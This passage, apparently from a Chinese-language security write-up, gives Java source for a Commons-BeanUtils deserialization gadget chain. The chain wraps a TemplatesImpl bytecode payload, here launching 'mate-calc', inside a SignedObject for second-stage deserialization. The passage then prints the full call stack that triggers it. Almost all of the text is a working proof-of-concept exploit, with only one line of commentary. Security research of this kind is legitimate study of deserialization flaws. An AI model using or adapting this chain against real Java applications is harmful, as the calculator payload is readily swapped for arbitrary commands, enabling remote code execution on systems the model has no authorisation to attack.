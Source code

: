 ```
                payload("mate-calc").toBytecode()});
        setFieldValue(obj, "_name", "Poria");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        PriorityQueue queue1 = getpayload(obj, "outputProperties");

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(queue1, kp.getPrivate(), Signature.getInstance("DSA"));

        PriorityQueue queue2 = getpayload(signedObject, "object");

        run(queue2, "debug", "object");
    }
    public static PriorityQueue<Object> getpayload(Object object, String string) throws Exception {
        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        priorityQueue.add("1");
        priorityQueue.add("2");
        setFieldValue(beanComparator, "property", string);
        setFieldValue(priorityQueue, "queue", new Object[]{object, null});
        return priorityQueue;
    }
}
```

构造过程和上面相似，不在赘述，茯苓在这里直接给出调用栈

```
readObject:431, ObjectInputStream (java.io)
getObject:179, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeMethod:2116, PropertyUtilsBean (org.apache.commons.beanutils)
getSimpleProperty:1267, PropertyUtilsBean (org.apache.commons.beanutils)
getNestedProperty:808, PropertyUtilsBean (org.apache.commons.beanutils)
getProperty:884, PropertyUtilsBean (org.apache.commons.beanutils)
getProperty:464, PropertyUtils (org.apache.commons.beanutils)
compare:163, BeanComparator (org.apache.commons.beanutils)
siftDownUsingComparator:722, PriorityQueue (java.util)
siftDown:688, PriorityQueue (java.util)
heapify:737, PriorityQueue (java.util)
readObject:797, PriorityQueue (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1170, ObjectStreamClass (java.io)
readSerialData:2178, ObjectInputStream (java.io)
readOrdinaryObject:2069, ObjectInputStream (java.io)
readObject0:1573, ObjectInputStream (java.io)
readObject:431, ObjectInputStream (java.io)
```
